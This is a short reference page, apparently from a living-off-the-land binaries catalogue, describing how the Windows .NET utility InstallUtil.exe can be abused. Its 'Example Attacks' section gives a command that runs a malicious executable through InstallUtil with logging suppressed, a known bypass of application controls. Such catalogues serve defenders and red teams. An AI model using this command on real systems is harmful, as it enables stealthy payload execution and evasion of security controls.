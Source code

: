 # InstallUtil.exe
## What is it?
*A .NET utility for installing/uninstalling assemblies.*

## How to abuse it
*Executes malicious .NET payloads.*

## Example Attacks
```
InstallUtil.exe /logfile= /LogToConsole=false /U C:\malicious.exe
```
